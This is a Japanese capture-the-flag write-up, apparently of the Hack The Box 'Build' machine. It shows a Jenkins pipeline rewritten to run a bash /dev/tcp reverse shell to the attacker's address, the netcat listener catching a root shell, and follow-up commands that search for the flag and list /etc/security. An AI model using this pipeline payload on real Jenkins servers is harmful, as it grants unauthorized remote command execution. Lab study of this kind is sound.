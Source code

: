 リバースシェルが飛んでくるように、書き換える

![](https://i.imgur.com/vIBoPOt.png)

書き換えるコード
```sh
pipeline {
  agent any
  stages {
    stage('revshell') {
      steps {
        sh 'bash -c "bash -i >& /dev/tcp/10.10.14.62/4444 0>&1"'
      }
    }
  }
}

```

リバースシェルを発火させる
```bash
┌──(kali㉿kali)-[~/…/HTB/machine/Build/jenkins_configuration]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.62] from (UNKNOWN) [10.129.83.194] 35510
bash: cannot set terminal process group (7): Inappropriate ioctl for device
bash: no job control in this shell
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# ls
ls
Jenkinsfile
root@5ac6c7d6fb8e:/var/jenkins_home/workspace/build_dev_main# 


```

リバースシェルが取得できた
```bash
root@5ac6c7d6fb8e:/home# find / -type f -iname "user.txt" 2>/dev/null
/root/user.txt
root@5ac6c7d6fb8e:/home# cat /root/user.txt
```
root権限でシェルに入っている

opasswdがあるかなと思ったけど、特に入っていなさそう
```bash
root@5ac6c7d6fb8e:/etc/security# ls -la
ls -la
total 56
drwxr-xr-x 4 root root 4096 Jan 10  2024 .
drwxr-xr-x 1 root root 4096 May  9  2024 ..
-rw-r--r-- 1 root root 4564 Sep 21  2023 access.conf
-rw-r--r-- 1 root root 2234 Sep 21  2023 faillock.conf
-rw-r--r-- 1 root root 3635 Sep 21  2023 group.conf
-rw-r--r-- 1 root root 2752 Sep 21  2023 limits.conf
drwxr-xr-x 2 root root 4096 Sep 21  2023 limits.d
-rw-r--r-- 1 root root 1637 Sep 21  2023 namespace.conf
drwxr-xr-x 2 root root 4096 Sep 21  2023 namespace.d
-rwxr-xr-x 1 root root 1016 Sep 21  2023 namespace.init
-rw------- 1 root root    0 Jan 10  2024 opasswd
-rw-r--r-- 1 root root 2971 Sep 21  2023 pam_env.conf
-rw-r--r-- 1 root root  418 Sep 21  2023 sepermit.conf
-rw-r--r-- 1 root root 2179 Sep 21  2023 time.conf
```
